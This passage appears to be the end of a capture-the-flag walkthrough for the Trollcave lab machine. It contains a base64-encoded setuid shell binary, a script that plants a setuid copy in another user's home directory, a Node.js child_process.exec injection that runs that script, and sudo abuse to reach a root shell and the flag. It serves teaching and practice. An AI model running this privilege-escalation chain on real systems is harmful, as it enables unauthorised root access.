AAAAAAAAAHgDAAAAAAAABgAAAAAAAAC4AgAAAAAAAAoAAAAAAAAAjQAAAAAAAAALAAAAAAAAABgA
AAAAAAAAFQAAAAAAAAAAAAAAAAAAAAMAAAAAAAAAABAgAAAAAAACAAAAAAAAADAAAAAAAAAAFAAA
AAAAAAAHAAAAAAAAABcAAAAAAAAA+AQAAAAAAAAHAAAAAAAAADgEAAAAAAAACAAAAAAAAADAAAAA
AAAAAAkAAAAAAAAAGAAAAAAAAAD7//9vAAAAAAAAAAgAAAAA/v//bwAAAAAYBAAAAAAAAP///28A
AAAAAQAAAAAAAADw//9vAAAAAAYEAAAAAAAA+f//bwAAAAADAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAPgNIAAAAAAA
AAAAAAAAAAAAAAAAAAAAAFYFAAAAAAAAZgUAAAAAAAAAAAAAAAAAADAQIAAAAAAAR0NDOiAoRGVi
aWFuIDcuMy4wLTExKSA3LjMuMAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAwABADgC
AAAAAAAAAAAAAAAAAAAAAAAAAwACAFQCAAAAAAAAAAAAAAAAAAAAAAAAAwADAHQCAAAAAAAAAAAA
AAAAAAAAAAAAAwAEAJgCAAAAAAAAAAAAAAAAAAAAAAAAAwAFALgCAAAAAAAAAAAAAAAAAAAAAAAA
AwAGAHgDAAAAAAAAAAAAAAAAAAAAAAAAAwAHAAYEAAAAAAAAAAAAAAAAAAAAAAAAAwAIABgEAAAA
AAAAAAAAAAAAAAAAAAAAAwAJADgEAAAAAAAAAAAAAAAAAAAAAAAAAwAKAPgEAAAAAAAAAAAAAAAA
AAAAAAAAAwALACgFAAAAAAAAAAAAAAAAAAAAAAAAAwAMAEAFAAAAAAAAAAAAAAAAAAAAAAAAAwAN
AHAFAAAAAAAAAAAAAAAAAAAAAAAAAwAOAIAFAAAAAAAAAAAAAAAAAAAAAAAAAwAPAEQHAAAAAAAA
AAAAAAAAAAAAAAAAAwAQAFAHAAAAAAAAAAAAAAAAAAAAAAAAAwARAFwHAAAAAAAAAAAAAAAAAAAA
AAAAAwASAJgHAAAAAAAAAAAAAAAAAAAAAAAAAwATAOgNIAAAAAAAAAAAAAAAAAAAAAAAAwAUAPAN
IAAAAAAAAAAAAAAAAAAAAAAAAwAVAPgNIAAAAAAAAAAAAAAAAAAAAAAAAwAWANgPIAAAAAAAAAAA
AAAAAAAAAAAAAwAXAAAQIAAAAAAAAAAAAAAAAAAAAAAAAwAYACgQIAAAAAAAAAAAAAAAAAAAAAAA
AwAZADgQIAAAAAAAAAAAAAAAAAAAAAAAAwAaAAAAAAAAAAAAAAAAAAAAAAABAAAABADx/wAAAAAA
AAAAAAAAAAAAAAAMAAAAAgAOALAFAAAAAAAAAAAAAAAAAAAOAAAAAgAOAPAFAAAAAAAAAAAAAAAA
AAAhAAAAAgAOAEAGAAAAAAAAAAAAAAAAAAA3AAAAAQAZADgQIAAAAAAAAQAAAAAAAABGAAAAAQAU
APANIAAAAAAAAAAAAAAAAABtAAAAAgAOAIAGAAAAAAAAAAAAAAAAAAB5AAAAAQATAOgNIAAAAAAA
AAAAAAAAAACYAAAABADx/wAAAAAAAAAAAAAAAAAAAAABAAAABADx/wAAAAAAAAAAAAAAAAAAAACf
AAAAAQASAJwIAAAAAAAAAAAAAAAAAAAAAAAABADx/wAAAAAAAAAAAAAAAAAAAACtAAAAAAATAPAN
IAAAAAAAAAAAAAAAAAC+AAAAAQAVAPgNIAAAAAAAAAAAAAAAAADHAAAAAAATAOgNIAAAAAAAAAAA
AAAAAADaAAAAAAARAFwHAAAAAAAAAAAAAAAAAADtAAAAAQAXAAAQIAAAAAAAAAAAAAAAAAADAQAA
EgAOAEAHAAAAAAAAAgAAAAAAAAATAQAAIAAAAAAAAAAAAAAAAAAAAAAAAABrAQAAIAAYACgQIAAA
AAAAAAAAAAAAAAAvAQAAEAAYADgQIAAAAAAAAAAAAAAAAAANAQAAEgAPAEQHAAAAAAAAAAAAAAAA
AAA2AQAAEgAAAAAAAAAAAAAAAAAAAAAAAABVAQAAEgAAAAAAAAAAAAAAAAAAAAAAAABpAQAAEAAY
ACgQIAAAAAAAAAAAAAAAAAB2AQAAIAAAAAAAAAAAAAAAAAAAAAAAAACFAQAAEQIYADAQIAAAAAAA
AAAAAAAAAACSAQAAEQAQAFAHAAAAAAAABAAAAAAAAAChAQAAEgAOANAGAAAAAAAAZQAAAAAAAAC5
AAAAEAAZAEAQIAAAAAAAAAAAAAAAAABvAQAAEgAOAIAFAAAAAAAAKwAAAAAAAACxAQAAEgAAAAAA
AAAAAAAAAAAAAAAAAADHAQAAEAAZADgQIAAAAAAAAAAAAAAAAADTAQAAEgAOAIoGAAAAAAAAOwAA
AAAAAADYAQAAEQIYADgQIAAAAAAAAAAAAAAAAADkAQAAIAAAAAAAAAAAAAAAAAAAAAAAAAD+AQAA
IgAAAAAAAAAAAAAAAAAAAAAAAACrAQAAEgALACgFAAAAAAAAAAAAAAAAAAAAY3J0c3R1ZmYuYwBk
ZXJlZ2lzdGVyX3RtX2Nsb25lcwBfX2RvX2dsb2JhbF9kdG9yc19hdXgAY29tcGxldGVkLjcwOTAA
X19kb19nbG9iYWxfZHRvcnNfYXV4X2ZpbmlfYXJyYXlfZW50cnkAZnJhbWVfZHVtbXkAX19mcmFt
ZV9kdW1teV9pbml0X2FycmF5X2VudHJ5AHN1aWQuYwBfX0ZSQU1FX0VORF9fAF9faW5pdF9hcnJh
eV9lbmQAX0RZTkFNSUMAX19pbml0X2FycmF5X3N0YXJ0AF9fR05VX0VIX0ZSQU1FX0hEUgBfR0xP
QkFMX09GRlNFVF9UQUJMRV8AX19saWJjX2NzdV9maW5pAF9JVE1fZGVyZWdpc3RlclRNQ2xvbmVU
YWJsZQBfZWRhdGEAX19saWJjX3N0YXJ0X21haW5AQEdMSUJDXzIuMi41AGV4ZWN2ZUBAR0xJQkNf
Mi4yLjUAX19kYXRhX3N0YXJ0AF9fZ21vbl9zdGFydF9fAF9fZHNvX2hhbmRsZQBfSU9fc3RkaW5f
dXNlZABfX2xpYmNfY3N1X2luaXQAc2V0cmV1aWRAQEdMSUJDXzIuMi41AF9fYnNzX3N0YXJ0AG1h
aW4AX19UTUNfRU5EX18AX0lUTV9yZWdpc3RlclRNQ2xvbmVUYWJsZQBfX2N4YV9maW5hbGl6ZUBA
R0xJQkNfMi4yLjUAAC5zeW10YWIALnN0cnRhYgAuc2hzdHJ0YWIALmludGVycAAubm90ZS5BQkkt
dGFnAC5ub3RlLmdudS5idWlsZC1pZAAuZ251Lmhhc2gALmR5bnN5bQAuZHluc3RyAC5nbnUudmVy
c2lvbgAuZ251LnZlcnNpb25fcgAucmVsYS5keW4ALnJlbGEucGx0AC5pbml0AC5wbHQuZ290AC50
ZXh0AC5maW5pAC5yb2RhdGEALmVoX2ZyYW1lX2hkcgAuZWhfZnJhbWUALmluaXRfYXJyYXkALmZp
bmlfYXJyYXkALmR5bmFtaWMALmdvdC5wbHQALmRhdGEALmJzcwAuY29tbWVudAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAABsAAAABAAAAAgAAAAAAAAA4AgAAAAAAADgCAAAAAAAAHAAAAAAAAAAAAAAAAAAAAAEAAAAA
AAAAAAAAAAAAAAAjAAAABwAAAAIAAAAAAAAAVAIAAAAAAABUAgAAAAAAACAAAAAAAAAAAAAAAAAA
AAAEAAAAAAAAAAAAAAAAAAAAMQAAAAcAAAACAAAAAAAAAHQCAAAAAAAAdAIAAAAAAAAkAAAAAAAA
AAAAAAAAAAAABAAAAAAAAAAAAAAAAAAAAEQAAAD2//9vAgAAAAAAAACYAgAAAAAAAJgCAAAAAAAA
HAAAAAAAAAAFAAAAAAAAAAgAAAAAAAAAAAAAAAAAAABOAAAACwAAAAIAAAAAAAAAuAIAAAAAAAC4
AgAAAAAAAMAAAAAAAAAABgAAAAEAAAAIAAAAAAAAABgAAAAAAAAAVgAAAAMAAAACAAAAAAAAAHgD
AAAAAAAAeAMAAAAAAACNAAAAAAAAAAAAAAAAAAAAAQAAAAAAAAAAAAAAAAAAAF4AAAD///9vAgAA
AAAAAAAGBAAAAAAAAAYEAAAAAAAAEAAAAAAAAAAFAAAAAAAAAAIAAAAAAAAAAgAAAAAAAABrAAAA
/v//bwIAAAAAAAAAGAQAAAAAAAAYBAAAAAAAACAAAAAAAAAABgAAAAEAAAAIAAAAAAAAAAAAAAAA
AAAAegAAAAQAAAACAAAAAAAAADgEAAAAAAAAOAQAAAAAAADAAAAAAAAAAAUAAAAAAAAACAAAAAAA
AAAYAAAAAAAAAIQAAAAEAAAAQgAAAAAAAAD4BAAAAAAAAPgEAAAAAAAAMAAAAAAAAAAFAAAAFwAA
AAgAAAAAAAAAGAAAAAAAAACOAAAAAQAAAAYAAAAAAAAAKAUAAAAAAAAoBQAAAAAAABcAAAAAAAAA
AAAAAAAAAAAEAAAAAAAAAAAAAAAAAAAAiQAAAAEAAAAGAAAAAAAAAEAFAAAAAAAAQAUAAAAAAAAw
AAAAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAAAAJQAAAABAAAABgAAAAAAAABwBQAAAAAAAHAF
AAAAAAAACAAAAAAAAAAAAAAAAAAAAAgAAAAAAAAACAAAAAAAAACdAAAAAQAAAAYAAAAAAAAAgAUA
AAAAAACABQAAAAAAAMIBAAAAAAAAAAAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAowAAAAEAAAAGAAAA
AAAAAEQHAAAAAAAARAcAAAAAAAAJAAAAAAAAAAAAAAAAAAAABAAAAAAAAAAAAAAAAAAAAKkAAAAB
AAAAAgAAAAAAAABQBwAAAAAAAFAHAAAAAAAADAAAAAAAAAAAAAAAAAAAAAQAAAAAAAAAAAAAAAAA
AACxAAAAAQAAAAIAAAAAAAAAXAcAAAAAAABcBwAAAAAAADwAAAAAAAAAAAAAAAAAAAAEAAAAAAAA
AAAAAAAAAAAAvwAAAAEAAAACAAAAAAAAAJgHAAAAAAAAmAcAAAAAAAAIAQAAAAAAAAAAAAAAAAAA
CAAAAAAAAAAAAAAAAAAAAMkAAAAOAAAAAwAAAAAAAADoDSAAAAAAAOgNAAAAAAAACAAAAAAAAAAA
AAAAAAAAAAgAAAAAAAAACAAAAAAAAADVAAAADwAAAAMAAAAAAAAA8A0gAAAAAADwDQAAAAAAAAgA
AAAAAAAAAAAAAAAAAAAIAAAAAAAAAAgAAAAAAAAA4QAAAAYAAAADAAAAAAAAAPgNIAAAAAAA+A0A
AAAAAADgAQAAAAAAAAYAAAAAAAAACAAAAAAAAAAQAAAAAAAAAJgAAAABAAAAAwAAAAAAAADYDyAA
AAAAANgPAAAAAAAAKAAAAAAAAAAAAAAAAAAAAAgAAAAAAAAACAAAAAAAAADqAAAAAQAAAAMAAAAA
AAAAABAgAAAAAAAAEAAAAAAAACgAAAAAAAAAAAAAAAAAAAAIAAAAAAAAAAgAAAAAAAAA8wAAAAEA
AAADAAAAAAAAACgQIAAAAAAAKBAAAAAAAAAQAAAAAAAAAAAAAAAAAAAACAAAAAAAAAAAAAAAAAAA
APkAAAAIAAAAAwAAAAAAAAA4ECAAAAAAADgQAAAAAAAACAAAAAAAAAAAAAAAAAAAAAEAAAAAAAAA
AAAAAAAAAAD+AAAAAQAAADAAAAAAAAAAAAAAAAAAAAA4EAAAAAAAAB0AAAAAAAAAAAAAAAAAAAAB
AAAAAAAAAAEAAAAAAAAAAQAAAAIAAAAAAAAAAAAAAAAAAAAAAAAAWBAAAAAAAAAYBgAAAAAAABwA
AAAsAAAACAAAAAAAAAAYAAAAAAAAAAkAAAADAAAAAAAAAAAAAAAAAAAAAAAAAHAWAAAAAAAAGgIA
AAAAAAAAAAAAAAAAAAEAAAAAAAAAAAAAAAAAAAARAAAAAwAAAAAAAAAAAAAAAAAAAAAAAACKGAAA
AAAAAAcBAAAAAAAAAAAAAAAAAAABAAAAAAAAAAAAAAAAAAAA
root@kali:~/trollcave#
```

```sh
rails@trollcave:/tmp$ mount | grep nosuid | grep /tmp
```

```sh
rails@trollcave:/tmp$ nano suid.b64
rails@trollcave:/tmp$ base64 -d suid.b64 > suid
rails@trollcave:/tmp$ chmod +x suid
rails@trollcave:/tmp$ ./suid
$ id
uid=1001(rails) gid=1001(rails) groups=1001(rails)
$ exit
rails@trollcave:/tmp$
```

```sh
rails@trollcave:/tmp$ vi runme.sh
rails@trollcave:/tmp$
rails@trollcave:/tmp$ cat /tmp/runme.sh
#!/bin/sh

cp /tmp/suid /home/king/suid2
chown king:king /home/king/suid2
chmod +x /home/king/suid2
chmod +s /home/king/suid2
rails@trollcave:/tmp$
rails@trollcave:/tmp$
rails@trollcave:/tmp$ chmod +s runme.sh
```

```
require('child_process').exec('/tmp/runme.sh'
```


```sh
rails@trollcave:/home/king$ ls -l suid2
-rwsr-sr-x 1 king king 8472 May  6 07:31 suid2
rails@trollcave:/home/king$ ./suid2
$ id
uid=1000(king) gid=1001(rails) groups=1001(rails)
$ sudo -l
Matching Defaults entries for king on trollcave:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User king may run the following commands on trollcave:
    (ALL) NOPASSWD: ALL
$ sudo cat /root/flag.txt
et tu, dragon?

c0db34ce8adaa7c07d064cc1697e3d7cb8aec9d5a0c4809d5a0c4809b6be23044d15379c5
$
$ sudo su -
root@trollcave:~# id
uid=0(root) gid=0(root) groups=0(root)
root@trollcave:~# cd /root
root@trollcave:~# ls -l
total 4
-rw-r--r-- 1 root root 90 Oct 20  2017 flag.txt
root@trollcave:~#
```
